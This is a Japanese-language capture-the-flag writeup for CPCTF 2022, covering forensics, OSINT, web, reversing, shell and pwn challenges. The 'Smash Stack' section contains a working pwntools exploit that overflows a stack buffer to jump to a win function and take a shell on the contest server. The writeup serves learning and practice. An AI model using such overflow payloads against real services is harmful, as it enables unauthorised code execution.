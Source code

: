 # CPCTF 2022 Writeup

## 目次

- Forensics
  - [sunset](#sunset)
  - [Dive!](#dive)
  - [deeper](#deeper)
- Misc
  - [Eagle](#eagle)
- OSINT
  - [Welcome to OSINT! 1](#welcome-to-osint-1)
- Web
  - [POST!ME!](#postme)
  - [Robots](#robots)
- Pwn
  - [Smash Stack](#smash-stack)
- Rev
  - [Welcome to reversing](#welcome-to-reversing)
- Shell
  - [Find Image](#find-image)

## sunset

画像ファイルだけあります。とりあえず`exiftool flag.jpg`でEXIF情報を確認するとCommentの欄にフラグがありました。

## Dive!

Docker Imageがあるので問題文にあるように素直に`docker load -i image.tar`してもよいですが、Docker環境を用意していなくて使いたくなかったので`tar xvf image.tar`してから`grep -ril CPCTF`でディレクトリ以下のファイル内に"CPCTF"という文字列を含むファイル名を見つけます。いくつか見つかるので確認するとフラグが手に入ります。

## deeper

ファイルがひとつだけあります。`file flag`で確認するとPNGファイルであることが分かります。画像をピクセル単位で確認しても特に怪しいところはありません。`binwalk -D='.*' flag`をしてみると中にzipファイルが入っていました。zip、gzip、bzip2と解凍するとBase64エンコードされたテキストファイルが出てきます。`cat flag | base64 -d > flag2`という感じでファイルに出力するとzipファイルだったので解凍するとSVGファイルが出てきます。なんか文字が隠されていますが文字列をコピーしてフラグゲット。

## Eagle

zipファイルがあるので解凍してみると特徴的な拡張子のファイルがいくつかあります。拡張子で検索にかけてみると、どうやらEagleとはフリーの基板開発CADソフトらしいということが分かります。フリーなのでEagleをインストールしてもよいですが、面倒なのでオンラインでガーバーファイルを表示できる[Online Gerber Viewer](https://www.gerber-viewer.com/)というものを使って見てみるとフラグがありました。

## Welcome to OSINT! 1

Googleレンズを使うと俺流塩ラーメンっぽいというところまでは分かりますがフラグ形式に当てはめることができるような情報はないです。Google画像検索で検索してみると一致した画像を含むページとしてブログが見つかります。開くとフラグが書いてありました。

## POST!ME!

ソースコードを見てみるとPOSTメソッドを投げるとフラグの前半、DLETEメソッドで後半が得られるようです。curlを使い`curl -X POST https://postme.cpctf.space/ -d '{"password":"pass"}' -H 'Content-Type:application/json'`、`curl -X DELETE https://postme.cpctf.space/`を投げると貰えます。注意点として、POSTのときはHeaderでJSON形式であることを正しく指定しないと400が返されてフラグが貰えません。

## Robots

まずrobots.txtとは検索エンジンのクローラにどのURLにアクセスしてよいかを示すものです。`https://chocolatechipcookie.cpctf.space/robots.txt`にアクセスするとフラグがあるURLが書かれており、そこにアクセスするとフラグがあります。

## Smash Stack

retaddrを書き換えてwin関数に飛ばす簡単なBOFを使ったROPです。最初頭が悪くて手元で`gcc vuln.c -o vuln`したセキュリティ機構全装備の実行ファイルを使って上手くいかないなと時間を溶かしまくっていました。サーバーにあるものはセキュリティ機構が外されており、素直にwinに飛ばしてシェルを奪うことができるのでflagが確認できます。  
以下は雑ソルバです。

```py
from pwn import *

io = process(['nc', "smash-stack.cpctf.space", "30005"])
io.recvuntil("win: ")
win = io.recvuntil("\n").decode()[:-1]
print(win)
win_addr = eval(f"p64({win})")

buf_size = 32
payload = b"\x00" * (buf_size + 8) + win_addr
io.sendline(payload)

io.interactive()
```

## Welcome to reversing

問題文にあるようにGhidraで見てみます。

```c
  if (((((local_26 == 'C') && (local_1b == 'n')) && (local_28 == 'C')) &&
      (((local_1e == 'r' && (local_24 == 'F')) &&
       ((local_19 == '}' && ((local_22 == 'r' && (local_1c == '1')))))))) &&
     ((local_20 == 'v' &&
      (((((local_1f == '3' && (local_25 == 'T')) && (local_1a == '6')) &&
        ((local_21 == '3' && (local_27 == 'P')))) && ((local_1d == '5' && (local_23 == '{')))))))) {
    puts("Correct!");
```

のようなコードがあるので順に並べるとフラグが手に入ります。

## Find Image

```sh
mkdir image_mnt
sudo mount -t ext4 -o loop image.img ./image_mnt/
```

でマウントします。`新しいフォルダー - コピー (2) - コピー - コピー`のような地獄のようなディレクトリが大量にあるのでとりあえず`tree`すると、`/image_mnt/新しいフォルダー - コピー (4) - コピー/新しいフォルダー (2) - コピー/flag.png`にフラグらしきものがあります。画像を開くとフラグが書いてあります。

